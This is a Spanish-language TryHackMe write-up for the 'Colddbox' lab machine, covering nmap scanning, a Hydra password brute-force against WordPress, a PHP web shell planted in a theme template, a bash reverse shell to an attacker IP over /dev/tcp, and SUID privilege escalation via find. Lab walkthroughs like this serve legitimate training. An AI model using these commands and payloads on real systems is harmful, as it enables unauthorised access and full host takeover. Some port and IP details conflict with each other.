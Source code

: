 ```yaml
---
layout: single
title: Colddbox - TryHackMe
excerpt: " ﻿﻿Can you get access and get both flags?
Good Luck!. "
date: 2023-01-24
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-colddbox/colddbox.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:
  - hydra
  - wordpress
  - rce
  - php
  - suid
---
```


Can you get access and get both **flags**?
Good Luck!.

# Summary
- IP: 10.10.125.23
- Ports: 80, 4512
- OS: Linux (Ubuntu)
- Services & Applications:
	-  80 -> Apache httpd 2.4.18
	-  4512 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.10

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.125.23 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,8080 -sCV 10.10.125.23 -oN targeted
```



# Análisis de página web:

- Abrimos la página, vemos una página de Wordpress; buscamos directorios, primero con nmap:

```bash
$nmap --script http-enum -p80 10.10.125.23 -oN webScan
```

- Encontramos un archivo "wp-login.php", ingresamos y encontramos el login principal de Wordpress.

- Existe otro directorio "/hidden" en el cual podemos enumerar posibles usuarios: c0ldd,hugo.


# Fuerza bruta con Hydra:

- Hacemos un ataque de fuerza bruta con Hydra para intentar obtener la contraseña de los usuarios encontrados, para esto, primero probamos ingresar en el login con el usuario "c0ldd" y vemos que nos arroja el mensaje "The password you entered for the username c0ldd is incorrect", esto quiere decir que el usuario "c0ldd" es un usuario válido; interceptamos la petición con Burpsuite para extraer la información necesaria para el ataque:

- Vemos que se trata de una petición por POST y las credenciales se especifican en la siguiente linea:

```html
log=c0ldd&pwd=test&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1
```

- Con esta información, procedemos a realiza el ataque con Hydra:

```bash
$hydra -l c0ldd -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.20.135 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1:The password you entered for the username" -t 30
```

- Obtenemos la credencial para el usuario "c0ldd", con esto accedemos en el login de Wordpress.



# Explotación básica de WordPress (RCE):

- Ya autenticado, vamos a la pestaña de "appeareance"  y clickeamos en "editor" .

- Escogemos una plantilla cualquiera, en este caso "Twenty Thirteen" y escogemos la template del recurso "404".

- Editamos poniéndole código PHP que nos permita ejecutar comandos de forma remota mediante el parámetro "cmd":

```php
<?php echo passthru($_GET["cmd"]); ?>
```

- Guardamos el recurso y accedemos a él siguiente el link:


```
http://10.10.20.135/wp-content/themes/twentythirteen/404.php?cmd=whoami
```

- Confirmamos el RCE y entablamos una reverse shell básica:

```
http://10.10.20.135/wp-content/themes/twentythirteen/404.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.18.101.123/443 0>%261"
```

- Accedemos como el usuario "www-data"



# ESCALANDO PRIVILEGIOS:


- Buscamos permisos SUID

```bash
$find / -perm -4000 2>/dev/null
```

- Vemos que el binario "find" se puede ejecutar como el propietario "root" de forma temporal, buscamos en "gtfobins" una forma de explotar este binario y encontramos el siguiente comando.

```bash
./find . -exec /bin/sh -p \; -quit
```

- Lo ejecutamos y seremos ROOT.
